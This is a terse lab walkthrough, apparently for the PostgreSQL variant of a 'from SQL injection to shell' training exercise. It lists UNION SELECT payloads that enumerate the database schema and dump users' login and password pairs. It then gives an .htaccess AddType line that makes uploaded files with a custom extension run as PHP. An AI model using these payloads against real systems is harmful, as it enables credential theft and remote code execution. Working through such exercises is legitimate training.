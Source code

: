 Same as FromSQLiToShell but PostgreSQL not MySQL

`/cat.php?id=1 UNION SELECT null,null,null,null`

`/cat.php?id=1 UNION SELECT 1,'a','b',2`

version(), current\_user, current\_database()

`column_name FROM information_schema.columns`

`tablename FROM pg_tables`

concat in PG with ||

`UNION SELECT null,table_name||':'||column_name,null,null FROM information_schema.columns ORDER BY 2`

`UNION SELECT null,login||':'||password,null,null FROM users`

We can upload non-php-extension files but we can't run them unless we register a new type in .htaccess (because AllowOverride is set to all)

`AddType application/x-httpd-php .doot`
